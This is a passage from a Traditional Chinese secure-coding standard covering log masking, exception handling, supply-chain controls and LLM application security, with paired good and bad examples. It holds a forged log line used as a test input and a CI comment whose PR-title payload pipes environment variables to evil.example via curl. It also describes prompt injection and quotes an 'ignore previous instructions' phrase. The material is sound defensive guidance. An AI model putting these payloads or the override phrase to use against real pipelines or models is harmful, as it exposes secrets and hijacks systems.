    public static String nationalId(String id) {
        if (id == null || id.length() < 6) {
            return "***";
        }
        return id.substring(0, 3) + "*".repeat(id.length() - 6) + id.substring(id.length() - 3);
    }

    /** 卡號只保留末四碼（PCI DSS 允許顯示前六後四，日誌以末四碼為限） */
    public static String cardNumber(String pan) {
        String digits = pan == null ? "" : pan.replaceAll("\\D", "");
        return digits.length() < 4 ? "****" : "****" + digits.substring(digits.length() - 4);
    }

    /** 帳號名稱只保留前兩個字元，並移除控制字元（SCG-LOG-003） */
    public static String username(String u) {
        if (u == null || u.isEmpty()) {
            return "";
        }
        String clean = LogSanitizer.clean(u);
        return clean.length() <= 2 ? clean.charAt(0) + "*" : clean.substring(0, 2) + "*".repeat(Math.min(6, clean.length() - 2));
    }
}
```

```java
// ✅ SCG-LOG-003：純文字日誌的消毒：把 CR、LF、Tab 與其他控制字元轉成可見的跳脫序列，並限制長度
package com.example.scg.log;

public final class LogSanitizer {

    private static final int MAX = 200;

    private LogSanitizer() {
    }

    public static String clean(String s) {
        if (s == null) {
            return "null";
        }
        StringBuilder b = new StringBuilder(Math.min(s.length(), MAX));
        for (int i = 0; i < s.length() && b.length() < MAX; i++) {
            char c = s.charAt(i);
            switch (c) {
                case '\r' -> b.append("\\r");
                case '\n' -> b.append("\\n");
                case '\t' -> b.append("\\t");
                default -> {
                    if (Character.isISOControl(c) || c == '' || c == '') {
                        b.append(String.format("\\u%04x", (int) c));
                    } else {
                        b.append(c);
                    }
                }
            }
        }
        return b.toString();
    }
}
```

```java
// ✅ SCG-LOG-002、SCG-LOG-003：測試遮罩與日誌注入防護
package com.example.scg.log;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class MaskingTest {

    @Test
    void masksIdentifiers() {
        assertThat(Masking.nationalId("A123456789")).isEqualTo("A12****789");
        assertThat(Masking.cardNumber("4111-1111-1111-1111")).isEqualTo("****1111");
    }

    @Test
    void forgedLogLineIsNeutralized() {
        String attack = "bob\n2026-10-08 INFO event=auth.login.success user=admin";
        assertThat(LogSanitizer.clean(attack)).doesNotContain("\n").contains("\\n");
        assertThat(Masking.username(attack)).doesNotContain("\n");
    }
}
```

```java
// ❌ SCG-LOG-002、SCG-LOG-003：記錄密碼與完整請求；使用者名稱中的換行可以偽造一行「登入成功」的日誌
log.info("login failed: username=" + username + " password=" + password);
log.debug("request body: {}", requestBodyJson);
log.info("Authorization header: {}", request.getHeader("Authorization"));
```

（片段：日誌的常見錯誤。）

```yaml
# ✅ SCG-LOG-003：Spring Boot 3.4 起內建結構化日誌（ECS JSON），訊息與 key-value 中的換行會被 JSON 跳脫
logging:
  structured:
    format:
      console: ecs
  level:
    SECURITY: INFO
```

```typescript
// ✅ SCG-LOG-002：Node.js 的 pino 以 redact 移除敏感欄位
import pino from 'pino';

export const logger = pino({
  redact: {
    paths: ['req.headers.authorization', 'req.headers.cookie', '*.password', '*.token', '*.cardNumber'],
    censor: '[REDACTED]',
  },
});
```

```sql
-- ✅ SCG-LOG-004：資料庫中的稽核表只允許新增；應用程式帳號沒有 UPDATE、DELETE、TRUNCATE 權限
CREATE TABLE security_audit_log (
    id         bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
    logged_at  timestamptz NOT NULL DEFAULT now(),
    actor      varchar(100) NOT NULL,
    event      varchar(60)  NOT NULL,
    target     varchar(200),
    outcome    varchar(20)  NOT NULL
);
CREATE ROLE audit_writer LOGIN PASSWORD 'change-me';
GRANT USAGE ON SCHEMA public TO audit_writer;
GRANT INSERT ON security_audit_log TO audit_writer;
REVOKE UPDATE, DELETE, TRUNCATE ON security_audit_log FROM audit_writer;

SET ROLE audit_writer;
INSERT INTO security_audit_log (actor, event, target, outcome) VALUES ('alice', 'pii.export', 'report-42', 'SUCCESS');
DELETE FROM security_audit_log;
-- 預期錯誤：permission denied for table security_audit_log
RESET ROLE;
```

#### 🔍 14.1 審查與驗證

- **自動檢查：** FindSecBugs `CRLF_INJECTION_LOGS`；在測試環境以 Gitleaks 掃描一段時間的日誌輸出（`gitleaks dir ./logs`），確認沒有權杖或金鑰；整合測試觸發登入失敗後，斷言 `SECURITY` 日誌包含 `event=auth.login.failure` 且不含密碼。
- **人工審查問題：**
  1. 新增的 `log.debug` 是否會在除錯層級開啟時記錄整個請求或回應（含個資與權杖）？
  2. 例外訊息被記錄時，是否包含使用者輸入的值（例如 SQL 錯誤中的參數）？
  3. 安全事件是否能讓調查人員回答「誰、在何時、從哪裡、對什麼、做了什麼」？
- **AI 常見錯誤：** 以 `log.info("user: " + user)` 記錄整個物件（`toString()` 包含所有欄位）；記錄 `Authorization` 標頭以「方便除錯」；以字串串接而不是參數化日誌。

### 14.2 例外處理與失敗安全

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-LOG-005` | 必須 | 不得吞掉例外（空的 `catch`、只印出 `e.printStackTrace()`、`catch` 後回傳 `null` 或預設值而不記錄）；例外必須在適當的層級處理：能處理就處理並記錄，不能處理就往上拋，由統一的錯誤處理器（`SCG-API-002`）轉成安全的回應 | 🤖 PMD `EmptyCatchBlock`、SpotBugs `DE_MIGHT_IGNORE`；🤖 Semgrep |
| `SCG-LOG-006` | 必須 | 例外發生時必須釋放資源並維持一致的狀態：使用 try-with-resources（Java）、`with`（Python）、`finally`／`using`（JavaScript）；修改多筆資料的操作必須在交易中進行，例外時回復 | 🤖 SpotBugs `OBL_UNSATISFIED_OBLIGATION`、`OS_OPEN_STREAM`；🧪 例外情境的測試 |
| `SCG-LOG-007` | 應該 | 應為重要的安全事件設定警示門檻（例如同一帳號 5 分鐘內登入失敗 20 次、同一使用者 1 小時內匯出 1,000 筆以上個資、授權服務錯誤率超過 1%），並定期演練警示是否送達正確的人 | 🧪 警示演練；👁 監控設定審查 |

```java
// ❌ SCG-LOG-005：吞掉例外並回傳 null，呼叫端以為「查無資料」而繼續執行
public Customer load(long id) {
    try {
        return repository.findById(id).orElseThrow();
    } catch (Exception e) {
        e.printStackTrace();
        return null;
    }
}
```

（片段：吞掉例外的反例。）

```java
// ✅ SCG-LOG-005、SCG-LOG-006：只處理能處理的例外；資源以 try-with-resources 釋放；其他例外往上拋
package com.example.scg.log;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.UncheckedIOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.NoSuchFileException;
import java.nio.file.Path;
import java.util.Optional;

public final class StatementReader {

    private StatementReader() {
    }

    /** 檔案不存在是預期情況，以 Optional.empty() 表示；其他 I/O 錯誤是異常，往上拋給統一的錯誤處理。 */
    public static Optional<String> firstLine(Path file) {
        try (BufferedReader r = Files.newBufferedReader(file, StandardCharsets.UTF_8)) {
            return Optional.ofNullable(r.readLine());
        } catch (NoSuchFileException e) {
            return Optional.empty();
        } catch (IOException e) {
            throw new UncheckedIOException("讀取對帳檔失敗：" + file.getFileName(), e);
        }
    }
}
```

```yaml
# ✅ SCG-LOG-007：Prometheus 警示規則：同一來源 5 分鐘內登入失敗超過 20 次（依應用程式匯出的計數指標）
groups:
  - name: security
    rules:
      - alert: LoginBruteForceSuspected
        expr: sum by (source_ip) (increase(auth_login_failures_total[5m])) > 20
        for: 1m
        labels:
          severity: high
          team: appsec
        annotations:
          summary: "疑似暴力破解：{{ $labels.source_ip }} 在 5 分鐘內登入失敗超過 20 次"
          runbook_url: https://wiki.example.com/runbooks/login-brute-force
```

#### 🔍 14.2 審查與驗證

- **自動檢查：** PMD `EmptyCatchBlock`、`AvoidPrintStackTrace`；SpotBugs `DE_MIGHT_IGNORE`、`REC_CATCH_EXCEPTION`、`OBL_UNSATISFIED_OBLIGATION`；以 `promtool check rules` 驗證警示規則語法。
- **人工審查問題：**
  1. `catch (Exception e)` 之後，程式是否仍處於一致的狀態？有沒有做了一半的資料修改？
  2. 安全檢查的例外是否走到 fail closed（`SCG-GEN-008`）？
  3. 警示送給誰？非上班時間是否有人處理？
- **AI 常見錯誤：** `catch (Exception e) { e.printStackTrace(); }`；`catch` 後 `return null`；手動 `close()` 而沒有放在 `finally`，例外時資源外洩。

## 15. 相依套件與軟體供應鏈

一個典型的 Java 或 Node.js 專案，自己撰寫的程式碼通常不到最終產物的 10%，其餘都來自開源套件。OWASP Top 10:2025 把「軟體供應鏈失效」列為 A03，原因是近年的重大事件幾乎都不是利用專案自己的程式碼：

| 事件 | 時間 | 手法 | 教訓 |
| --- | --- | --- | --- |
| tj-actions/changed-files（CVE-2025-30066） | 2025-03 | 熱門 GitHub Action 的版本標籤被改指向惡意 commit，在 CI 日誌中印出秘密 | Action 必須以完整 commit SHA 固定（`SCG-SUP-006`） |
| chalk、debug 等 18 個 npm 套件遭植入惡意程式 | 2025-09 | 維護者帳號被釣魚，攻擊者發布竊取加密貨幣的新版本 | 延後採用新發布的版本（`SCG-SUP-003`） |
| Shai-Hulud 蠕蟲 | 2025-09 起 | npm 套件的 `postinstall` 腳本竊取開發者與 CI 的權杖，再用權杖感染維護者的其他套件 | 停用相依套件的安裝腳本（`SCG-SUP-005`） |
| React Server Components（CVE-2025-55182） | 2025-12 | 框架本身的弱點，公開後數日內即被大規模利用 | 弱點修補時限（`SCG-SDL-005`）與持續的 SCA（`SCG-SUP-001`） |
| AI 幻覺套件（slopsquatting） | 持續 | AI 程式碼助理建議不存在的套件名稱，攻擊者搶先註冊同名惡意套件 | 新增相依套件必須審查（`SCG-SUP-004`） |

供應鏈平台（制品庫、簽章、SLSA 等級）的架構設計見 [架構設計指引]() 第 11.8 節；本章規範專案程式庫內要做到的事。

### 15.1 相依套件的弱點與鎖定

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SUP-001` | 必須 | CI 必須以 SCA 工具（OSV-Scanner、OWASP Dependency-Check、`npm audit`、`pip-audit`、GitHub Dependabot）掃描直接與間接相依套件；CVSS 7.0 以上或列入 CISA KEV 的弱點必須阻擋合併 | 🤖 CI 設定檢查 |
| `SCG-SUP-002` | 必須 | 相依套件的鎖定檔（`package-lock.json`、`pnpm-lock.yaml`、`uv.lock`、`poetry.lock`、Gradle `gradle.lockfile`）必須提交到版本控制；CI 必須以不修改鎖定檔的方式安裝（`npm ci`、`pnpm install --frozen-lockfile`、`uv sync --locked`）；Maven 不得使用版本範圍與 `LATEST`、`RELEASE` | 🤖 CI 設定檢查；🤖 Maven Enforcer `requireReleaseDeps`、`banDynamicVersions` |
| `SCG-SUP-003` | 應該 | 自動更新相依套件（Renovate、Dependabot）應設定冷卻期，新發布的版本經過至少 1–3 天才採用（安全修補可例外）；套件管理工具應啟用最短發布時間（npm 11.10 起的 `min-release-age`、pnpm 11 起預設 1440 分鐘的 `minimumReleaseAge`） | 🤖 設定檔檢查 |

```yaml
# ✅ SCG-SUP-001：Maven 專案以 OWASP Dependency-Check 掃描，CVSS ≥ 7 時建置失敗（GitHub Actions 片段）
- name: Dependency-Check
  run: >
    mvn -B org.owasp:dependency-check-maven:13.0.0:check
    -DfailBuildOnCVSS=7
    -DnvdApiKey=${{ secrets.NVD_API_KEY }}
    -DsuppressionFile=dependency-check-suppressions.xml
```

```xml
<!-- ✅ SCG-SUP-001：抑制誤判時必須寫明原因、核准的例外編號與到期日（Dependency-Check 會在到期後重新報告） -->
<suppressions xmlns="https://jeremylong.github.io/DependencyCheck/dependency-suppression.1.3.xsd">
  <suppress until="2027-03-31Z">
    <notes>SEC-EX-2026-011：CVE-2026-12345 只影響 Windows 上的 CLI 工具，本服務以 Linux 容器執行且未使用該 CLI</notes>
    <packageUrl regex="true">^pkg:maven/com\.example\.lib/report-engine@.*$</packageUrl>
    <cve>CVE-2026-12345</cve>
  </suppress>
</suppressions>
```

```xml
<!-- ✅ SCG-SUP-002：Maven Enforcer 禁止 SNAPSHOT 與動態版本 -->
<plugin>
  <groupId>org.apache.maven.plugins</groupId>
  <artifactId>maven-enforcer-plugin</artifactId>
  <executions>
    <execution>
      <id>enforce-pinned-dependencies</id>
      <goals><goal>enforce</goal></goals>
      <configuration>
        <rules>
          <requireReleaseDeps>
            <onlyWhenRelease>false</onlyWhenRelease>
          </requireReleaseDeps>
          <banDynamicVersions/>
          <dependencyConvergence/>
        </rules>
      </configuration>
    </execution>
  </executions>
</plugin>
```

```ini
# ✅ SCG-SUP-003、SCG-SUP-005：專案根目錄的 .npmrc
# 只安裝已發布超過 3 天的版本（npm 11.10 起支援，單位為天）
min-release-age=3
# 不執行相依套件的 preinstall／install／postinstall 腳本
ignore-scripts=true
# 只從公司的制品庫代理取得套件
registry=https://artifacts.example.com/api/npm/npm-remote/
```

```json
{
  "_comment": "✅ SCG-SUP-003：renovate.json，一般更新等待 3 天；弱點修補立即建立 PR",
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": ["config:recommended", "helpers:pinGitHubActionDigests"],
  "minimumReleaseAge": "3 days",
  "vulnerabilityAlerts": { "minimumReleaseAge": null, "labels": ["security"] },
  "packageRules": [
    { "matchUpdateTypes": ["major"], "dependencyDashboardApproval": true }
  ]
}
```

#### 🔍 15.1 審查與驗證

- **自動檢查：** OSV-Scanner（`osv-scanner scan source -r .`）或 Dependency-Check 在 CI 執行；`npm ci`、`pnpm install --frozen-lockfile` 在鎖定檔與 `package.json` 不一致時會失敗；Maven Enforcer 在建置時檢查。
- **人工審查問題：**
  1. 弱點抑制清單中的每一筆是否有原因、例外編號與到期日？是否有人定期檢視？
  2. Pull Request 中鎖定檔的變更是否與 `package.json`／`pom.xml` 的變更相符？鎖定檔中突然出現的新套件或新的下載網址是警訊。
- **AI 常見錯誤：** 在 CI 使用 `npm install`（會更新鎖定檔）；以 `"^1.2.3"` 加上不提交鎖定檔；為了讓建置通過而加入過寬的抑制規則（例如整個套件的所有 CVE）。

### 15.2 新增相依套件與安裝腳本

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SUP-004` | 必須 | 新增相依套件前必須確認：套件確實存在於官方套件庫且名稱正確（不是拼字相近的仿冒套件，也不是 AI 虛構的名稱）、有持續維護、授權與公司政策相容、沒有未修補的高風險弱點；能以標準函式庫或既有套件完成時不新增套件 | 👁 程式碼審查（PR 範本勾選欄）；🤖 OpenSSF Scorecard、`deps.dev` 查詢 |
| `SCG-SUP-005` | 必須 | 安裝相依套件時不得自動執行其安裝腳本（npm `ignore-scripts=true`、pnpm 預設行為搭配 `allowBuilds` 允許清單）；確實需要建置腳本的套件必須逐一列入允許清單並經審查 | 🤖 設定檔檢查 |

```text
✅ SCG-SUP-004：新增相依套件的檢查清單（貼在 Pull Request 說明中）
套件：fast-xml-parser 5.x（npm）
[x] 名稱正確：與官方文件、GitHub 專案頁的名稱一致，不是 fast-xml-parse、fastxmlparser 等仿冒名稱
[x] 在 npmjs.com 有長期的發布紀錄（不是最近幾天才建立的套件）
[x] 原始碼庫最近 6 個月內有維護；OpenSSF Scorecard ≥ 6
[x] 授權：MIT（公司允許清單內）
[x] 沒有未修補的 High／Critical 弱點（osv.dev 查詢）
[x] 必要性：標準函式庫沒有 XML 解析器；既有相依中沒有同類套件
```

```bash
# ✅ SCG-SUP-004：以 OSV 與 deps.dev 快速確認套件狀態
osv-scanner scan --lockfile package-lock.json
curl -s "https://api.deps.dev/v3/systems/npm/packages/fast-xml-parser" | jq '.versions[-1].versionKey'
```

```yaml
# ✅ SCG-SUP-005：pnpm-workspace.yaml。pnpm 預設不執行相依套件的建置腳本，只有列在 allowBuilds 中的套件可以執行
allowBuilds:
  esbuild: true
  "@swc/core": true
strictDepBuilds: true
minimumReleaseAge: 4320
```

#### 🔍 15.2 審查與驗證

- **自動檢查：** CI 檢查 `.npmrc` 含 `ignore-scripts=true` 或使用 pnpm 且 `strictDepBuilds: true`；以 `npm view <套件> time.created` 查詢套件建立時間，新建立的套件需要特別注意。
- **人工審查問題：**
  1. 新增的套件名稱是否與 AI 建議的完全相同？是否在官方套件庫查證過？
  2. 新增的套件有沒有 `postinstall` 腳本？它在做什麼？
  3. 這個套件是否真的必要？（`left-pad` 等級的小功能應自己實作。）
- **AI 常見錯誤：** 建議不存在的套件（例如把兩個真實套件名稱組合成一個新名稱）；建議已廢棄多年的套件；以 `npm install` 安裝後直接提交而未檢查鎖定檔中的變更。

### 15.3 CI/CD 管線與建置產物

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SUP-006` | 必須 | GitHub Actions 等 CI 工作流程必須：以完整 commit SHA 固定第三方 Action；在工作流程或工作層級設定最小的 `permissions`；不得在 `run` 中直接插入可由外部控制的內容（`${{ github.event.issue.title }}`、`${{ github.head_ref }}` 等），應先放入環境變數；不得在 `pull_request_target` 中簽出並執行 PR 的程式碼 | 🤖 zizmor；🤖 actionlint；🤖 OpenSSF Scorecard `Pinned-Dependencies`、`Token-Permissions`、`Dangerous-Workflow` |
| `SCG-SUP-007` | 必須 | 每個發布版本都必須產生 SBOM（CycloneDX 或 SPDX）並與建置產物一起保存，作為弱點影響分析的依據 | 🤖 CI 檢查 SBOM 產出 |
| `SCG-SUP-008` | 應該 | 建置產物（容器映像、JAR）應產生建置來源證明（provenance）並簽章（Sigstore cosign、GitHub Artifact Attestations），部署端應驗證簽章，目標達到 SLSA Build Level 2 以上 | 🤖 部署前 `cosign verify`／`gh attestation verify` |

```yaml
# ❌ SCG-SUP-006：可變標籤、過寬的權限，並把 PR 標題直接插入 shell。
#    標題為 a"; curl -d "$(env)" https://evil.example; echo " 時會外洩所有環境變數與權杖
name: pr-label
on: pull_request_target
permissions: write-all
jobs:
  label:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - run: echo "Processing ${{ github.event.pull_request.title }}"
      - run: npm install && npm test
```

```yaml
# ✅ SCG-SUP-006：以 SHA 固定 Action、最小權限、外部內容先放入環境變數；不在 pull_request_target 中執行 PR 程式碼
name: pr-check
on: pull_request
permissions:
  contents: read
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-node@949feb2413d6458794dcd2491c4babbbce0c15c1 # v7.1.0
        with:
          node-version: 24
      - name: Show PR title
        env:
          PR_TITLE: ${{ github.event.pull_request.title }}
        run: echo "Processing $PR_TITLE"
      - run: npm ci --ignore-scripts && npm test
```

```xml
<!-- ✅ SCG-SUP-007：CycloneDX Maven Plugin 在 package 階段產生 SBOM（target/bom.json） -->
<plugin>
  <groupId>org.cyclonedx</groupId>
  <artifactId>cyclonedx-maven-plugin</artifactId>
  <version>2.9.3</version>
  <executions>
    <execution>
      <phase>package</phase>
      <goals><goal>makeAggregateBom</goal></goals>
    </execution>
  </executions>
  <configuration>
    <outputFormat>json</outputFormat>
  </configuration>
</plugin>
```

```yaml
# ✅ SCG-SUP-008：以 GitHub Artifact Attestations 產生建置來源證明（需要 id-token 與 attestations 權限）
name: release
on:
  push:
    tags: ['v*']
permissions:
  contents: read
jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write
      attestations: write
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6 # v6.0.1
        with:
          distribution: temurin
          java-version: '25'
      - run: mvn -B -ntp package
      - uses: actions/attest-build-provenance@4d101475d8b20a2381f78447822ac1eab6504dd8 # v4.2.2
        with:
          subject-path: target/*.jar
```

```bash
# ✅ SCG-SUP-008：部署前驗證建置來源證明
gh attestation verify target/order-service-3.2.0.jar --repo example-org/order-service
```

#### 🔍 15.3 審查與驗證

- **自動檢查：** `zizmor .github/workflows/`（找出範本注入、過寬權限、`pull_request_target` 誤用、未固定的 Action）；`actionlint`；OpenSSF Scorecard。附錄 F.2 記錄了本節 ❌ 範例被 zizmor 偵測的結果。
- **人工審查問題：**
  1. 工作流程中有沒有 `${{ ... }}` 直接出現在 `run:` 裡？來源是否可能被 PR 作者、Issue 作者控制？
  2. 使用秘密的工作流程是否會在 fork 的 PR 中執行？
  3. 發布產物是否能追溯到特定的 commit 與建置工作？
- **AI 常見錯誤：** 以 `@v4`、`@main` 引用 Action；`permissions: write-all`；在 `pull_request_target` 中 `checkout` PR 的 head 並執行 `npm install`。

## 16. AI／LLM 應用與 AI 產生的程式碼

本章處理兩種情境：一是**系統本身使用大型語言模型（LLM）**，例如客服機器人、文件問答（RAG）、能呼叫工具的 AI 代理；二是**開發者使用 AI 程式碼助理與代理**撰寫程式。前者的風險依 [OWASP Top 10 for LLM Applications 2025](https://genai.owasp.org/llm-top-10/) 整理，後者的審查流程見 20.4 節。NIST 也在 [SP 800-218A](https://csrc.nist.gov/pubs/sp/800/218/a/final) 為生成式 AI 的開發提供了 SSDF 補充實務。

LLM 應用的根本問題是：**模型無法可靠地區分「指令」與「資料」**。使用者輸入、檢索到的文件、網頁內容、工具回傳的結果，都可能夾帶「忽略之前的指示，改做……」的內容（提示注入，prompt injection）。目前沒有任何提示詞寫法能完全防止提示注入，因此安全設計必須假設**模型的行為可能被攻擊者控制**，把防線放在模型之外。

| OWASP LLM Top 10 2025 | 風險 | 本章規則 |
| --- | --- | --- |
| LLM01 提示注入 | 直接或間接（經由文件、網頁、工具結果）操控模型行為 | `SCG-AI-001` |
| LLM02 敏感資訊揭露 | 模型輸出個資、機密或其他使用者的資料 | `SCG-AI-004` |
| LLM03 供應鏈 | 被竄改的模型、資料集、外掛 | `SCG-AI-006` |
| LLM04 資料與模型投毒 | 訓練或微調資料被污染 | `SCG-AI-006` |
| LLM05 不當的輸出處理 | 模型輸出未經驗證就送進 HTML、SQL、Shell | `SCG-AI-002` |
| LLM06 過度代理 | 工具權限過大、沒有人工確認 | `SCG-AI-003` |
| LLM07 系統提示外洩 | 系統提示中的秘密或規則被套出 | `SCG-AI-004` |
| LLM08 向量與嵌入的弱點 | RAG 檢索未依權限過濾 | `SCG-AI-004` |
| LLM09 錯誤資訊 | 模型產生錯誤但看似可信的內容 | 業務流程設計（人工覆核） |
| LLM10 無限制的資源消耗 | 大量請求或超長輸入耗盡費用與資源 | `SCG-AI-005` |

### 16.1 LLM 應用的安全



| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AI-001` | 必須 | 所有進入模型的內容（使用者輸入、檢索文件、網頁、工具結果）都必須視為不可信；授權、金額上限、資料範圍等安全控制必須在模型之外的程式碼中執行，不得以系統提示中的文字（「不要洩漏……」、「只能查詢自己的資料」）作為安全控制 | 🧪 提示注入測試集（例如以 promptfoo、garak 執行）；👁 設計審查 |
| `SCG-AI-002` | 必須 | 模型輸出必須視為不可信的輸入：使用前以 Schema 驗證結構化輸出；顯示時以文字輸出或經 DOMPurify 清理（`SCG-FE-003`）；不得把模型輸出直接放進 SQL、Shell、`eval`、檔案路徑、URL 請求或程式碼執行 | 🧪 以惡意輸出（含 HTML、SQL）的單元測試；🤖 Semgrep、ESLint |
| `SCG-AI-003` | 必須 | 提供給模型的工具必須是最小集合，並以呼叫者（終端使用者）的身分與權限執行，不得使用共用的高權限帳號；寫入、刪除、付款、對外寄送等高影響操作必須經人工確認；工具的參數必須在執行前以 Schema 驗證 | 🧪 工具授權測試；👁 設計審查 |
| `SCG-AI-004` | 必須 | 系統提示不得包含秘密（金鑰、內部網址、帳號）；RAG 檢索必須依使用者的權限過濾文件（在向量資料庫查詢時套用權限條件，而不是取回後再請模型「不要顯示」）；送往外部模型服務的內容必須符合資料分級規定 | 🧪 以低權限使用者查詢高機密文件的測試；👁 設計審查 |
| `SCG-AI-005` | 必須 | LLM 端點必須限制輸入長度、輸出 token 數、單一使用者的請求頻率與每日用量、工具呼叫的迴圈次數，並設定逾時與費用上限 | 🧪 超過上限的測試；👁 設定審查 |
| `SCG-AI-006` | 應該 | 自行載入的模型與資料集應來自可信來源、驗證雜湊值，並使用不能執行程式碼的格式（`safetensors`、ONNX）；不得以 `pickle`、`torch.load`（未設 `weights_only=True`）載入外部模型 | 🤖 Bandit `B614`、`B301`；👁 程式碼審查 |

```typescript
// ❌ SCG-AI-001、SCG-AI-003：以系統提示「要求」模型遵守權限，且工具以共用的資料庫帳號執行任意 SQL
const systemPrompt = '你是客服助理。你只能查詢目前使用者自己的訂單，絕對不可以查詢別人的資料。';
const tools = [{
  name: 'run_sql',
  description: '執行 SQL 查詢訂單資料庫',
  execute: async (args: { sql: string }) => adminDb.query(args.sql),
}];
```

```typescript
// ✅ SCG-AI-001、SCG-AI-003：工具只做一件事、參數以 Schema 驗證、以目前使用者身分查詢；權限由程式碼保證，不靠提示詞
import { z } from 'zod';

export interface ToolContext {
  userId: string;
  db: { ordersOf(userId: string, status?: string): Promise<{ id: string; status: string; amount: number }[]> };
}

const ListOrdersArgs = z.strictObject({ status: z.enum(['CREATED', 'PAID', 'SHIPPED']).optional() });

export const tools = {
  list_my_orders: {
    description: '列出目前使用者的訂單（可依狀態篩選）',
    parameters: ListOrdersArgs,
    highImpact: false,
    async execute(rawArgs: unknown, ctx: ToolContext) {
      const args = ListOrdersArgs.parse(rawArgs);                // 模型產生的參數也要驗證
      return ctx.db.ordersOf(ctx.userId, args.status);           // userId 來自已驗證的身分，不是模型輸入
    },
  },
} as const;

export async function dispatch(name: string, rawArgs: unknown, ctx: ToolContext, confirmed: boolean) {
  if (!Object.hasOwn(tools, name)) {
    throw new Error(`不允許的工具：${name}`);
  }
  const tool = tools[name as keyof typeof tools];
  if (tool.highImpact && !confirmed) {
    return { needsConfirmation: true };                          // 高影響操作交由使用者在介面上確認
  }
  return tool.execute(rawArgs, ctx);
}
```

```typescript
// ✅ SCG-AI-002：要求模型輸出 JSON，並以 Schema 驗證；顯示時只用 textContent
import { z } from 'zod';

const Summary = z.strictObject({
  title: z.string().max(80),
  bullets: z.array(z.string().max(200)).max(5),
  sentiment: z.enum(['positive', 'neutral', 'negative']),
});

export function parseModelOutput(text: string) {
  let json: unknown;
  try {
    json = JSON.parse(text);
  } catch {
    throw new Error('模型輸出不是合法的 JSON');
  }
  return Summary.parse(json);
}

export function render(el: HTMLElement, s: z.infer<typeof Summary>): void {
  const h = document.createElement('h3');
  h.textContent = s.title;                                       // 模型輸出中的  只會被當成文字
  el.replaceChildren(h, ...s.bullets.map((b) => {
    const li = document.createElement('li');
    li.textContent = b;
    return li;
  }));
}
```

```typescript
// ❌ SCG-AI-002：把模型輸出直接當成 HTML 與 SQL 使用
chatBox.innerHTML = completion.text;
const rows = await db.query(`SELECT * FROM report WHERE ${completion.text}`);
```

```python
# ✅ SCG-AI-004：RAG 檢索時在資料庫查詢中套用權限條件，模型只看得到使用者有權閱讀的段落
from typing import Sequence

import psycopg

SEARCH_SQL = """
SELECT c.content
  FROM doc_chunk c
  JOIN document d ON d.id = c.document_id
 WHERE d.classification <= %(clearance)s
   AND (d.department = ANY(%(departments)s) OR d.is_public)
 ORDER BY c.embedding <=> %(query_embedding)s::vector
 LIMIT 5
"""


def retrieve(conn: psycopg.Connection, query_embedding: Sequence[float], clearance: int, departments: list[str]) -> list[str]:
    params = {
        "clearance": clearance,
        "departments": departments,
        "query_embedding": "[" + ",".join(f"{x:.6f}" for x in query_embedding) + "]",
    }
    with conn.cursor() as cur:
        cur.execute(SEARCH_SQL, params)
        return [row[0] for row in cur.fetchall()]
```

```yaml
# ✅ SCG-AI-005：LLM 閘道的用量限制設定（示意：各閘道產品的欄位名稱不同，重點是每一項都有上限）
llm-gateway:
  request:
    max-input-chars: 8000
    max-output-tokens: 1024
    timeout: 30s
  per-user:
    requests-per-minute: 10
    tokens-per-day: 200000
  agent:
    max-tool-calls-per-turn: 5
    max-turns: 8
  budget:
    monthly-usd-limit: 2000
    alert-at-percent: 80
```

```python
# ❌ SCG-AI-006：torch.load 預設會以 pickle 還原物件，載入外部模型等同執行對方的程式碼
import torch

model_state = torch.load("downloaded/model.pt")
```

```python
# ✅ SCG-AI-006：驗證雜湊後以 safetensors 載入（只包含張量，不能執行程式碼）
import hashlib
from pathlib import Path

from safetensors.torch import load_file

EXPECTED_SHA256 = "3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855e"


def load_model(path: Path) -> dict:
    digest = hashlib.sha256(path.read_bytes()).hexdigest()
    if digest != EXPECTED_SHA256:
        raise ValueError("模型檔案的雜湊值不符")
    return load_file(str(path))
```

#### 🔍 16.1 審查與驗證

- **自動檢查：** 以提示注入測試集（promptfoo 的 red team 外掛、NVIDIA garak）在 CI 定期執行，檢查模型是否會呼叫不該呼叫的工具或輸出系統提示；工具與輸出處理的程式碼以一般的單元測試驗證（Schema 驗證、授權）；Bandit `B614`（`torch.load`）。
- **人工審查問題：**
  1. 如果攻擊者完全控制了模型的輸出，最壞的情況是什麼？（這就是工具權限與輸出處理的真實防線。）
  2. 工具是以使用者的權限執行，還是以服務帳號執行？
  3. RAG 的權限過濾是在檢索時（資料庫查詢）還是在檢索後（提示詞中）？
  4. 送往外部 AI 服務的資料是否包含個資？是否符合合約與資料分級？
- **AI 常見錯誤：** 以系統提示要求模型「不要洩漏」；把模型輸出以 `innerHTML` 顯示；提供 `run_sql`、`run_shell` 這類萬用工具；RAG 取回所有文件後再讓模型判斷權限。

### 16.2 AI 程式碼助理與代理的使用

AI 程式碼代理（能讀寫檔案、執行命令、呼叫 MCP 伺服器的 AI）擁有與開發者相同的存取能力。它讀到的任何內容（程式碼註解、README、Issue、網頁、相依套件的檔案）都可能包含提示注入，誘使它外洩秘密或執行惡意命令。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
